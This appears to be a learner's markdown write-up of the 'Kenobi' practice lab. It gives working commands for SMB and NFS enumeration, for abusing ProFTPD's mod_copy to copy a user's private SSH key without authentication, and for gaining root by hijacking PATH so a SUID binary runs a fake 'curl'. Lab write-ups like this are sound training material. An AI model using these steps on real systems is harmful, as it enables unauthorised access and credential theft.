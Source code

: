 # KENOBI

## SAMBA

* Windows interooperability suit of programs for linux and unix
* Allows the sharing of files, printers, etc
* Based on SMB, which was originally only for windows

This is used to enumerate shares:

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP
```

Used to connect via smb

```bash
smbclient //<ip>/anonymous
```

Download recursively with SMB

```bash
smbget -R smb://<ip>/anonymous
```

From the nmap scan you find RPC (remote procedure call) running. You can use nmap access a network file system

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP
```


## ProFtpd

* Open-source ftp server that works with unix and windows

After finding the mod_copy module with search sploit you know the following

```
The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.
```

Since you know ftp is running you know that there is a generated ssh key

```bash
nc $IP 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

now mount to the kenobi file system

```bash
mkdir /mnt/kenobiNFS
mount $IP/var/mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

Now have network mount on your machine, you can get the ssh key and login

```bash
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@$IP
```

## Privilege Escalation with Path Variable Manipulation

* SUID Bit: User executes the file with permissions of the file owner -> can be used to escalate priviledge

To search the system for custom files that have SUID bit

```bash
find / -perm -u=s -type f 2>/dev/null
```
Use **strings** command to find human readable in binary, you find you can run curl as it runs without a full path, eg not using /usr/bin/curl

As this file runs with root, we can manipulate our path to gain root

```bash
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

```
We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!
```
